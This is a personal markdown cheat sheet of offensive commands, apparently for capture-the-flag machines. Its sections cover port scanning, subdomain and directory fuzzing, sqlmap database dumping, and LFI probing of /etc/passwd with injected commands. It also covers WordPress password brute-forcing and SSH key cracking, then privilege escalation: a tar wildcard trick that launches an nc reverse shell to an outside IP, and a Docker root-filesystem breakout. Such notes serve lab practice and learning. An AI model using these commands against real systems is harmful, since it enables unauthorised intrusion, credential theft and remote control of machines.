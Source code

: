 # hacking_notes

## Recon

### Scanning ports
```powershell
sudo nmap -A -o scan_agsv.txt 10.10.10.218
sudo nmap -sS -p- -o scan_full.txt 10.10.10.218
```
### Fuzzing subdomains
```powershell
wfuzz -w subdomains-top1million-5000.txt -H "Host: FUZZ.vulnnet.thm" --hc 200 10.10.236.248
```

### sqlmap
```powershell
sqlmap -r ./test_user --dbms=MySQL --technique=U --delay=3
sqlmap -r ./test_user --dbms=MySQL --current-db
sqlmap -r ./test_user --dbms=MySQL -D marketplace --dump
```


### LFI
```powershell
python ./panoptic.py --url http://vulnnet.thm/\?referer\=test
```

### Fuzzing for command executions via LFI 
```powershell
wfuzz -w SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=id\;whoami\|\|ls
wfuzz --hh 5829 -w ~/Documents/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=/etc/passwd
```

### Fuzzing dir
```powershell
gobuster -u http://broadcast.vulnnet.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster -u http://10.10.236.248 -w SecLists-master/Discovery/Web-Content/common.txt
```

### Wordpress
```powershell
wpscan --url http://10.10.255.124/blog --enumerate u
wpscan --url http://10.10.74.136/ --passwords /usr/share/wordlists/rockyou.txt --usernames user1,user2
```


## Cracking

### Crack ssh passphrase
```powershell
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## Priv Esc

### tar wildcards
```powershell
cd target_dir
echo "mkfifo /tmp/bggenux; nc 10.9.4.192 4444 0</tmp/bggenux | /bin/sh >/tmp/bggenux 2>&1; rm /tmp/bggenux" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```
* [https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
* [https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)


### Docker
```powershell
docker run -it -v /:/host/ <docker image> chroot /host/ bash
```
* [https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)

## Misc

### Start local server
```powershell
python -m SimpleHTTPServer
```

### Get tty in shell
```powershell
python3 -c'import pty;pty.spawn("/bin/bash")'
```

## TODO

[*] ftp
[*] hydra
[*] http bruteforce
[*] one line reverse shell
[*] check linux exploit
[*] smb (nmap script enum)
[*] john
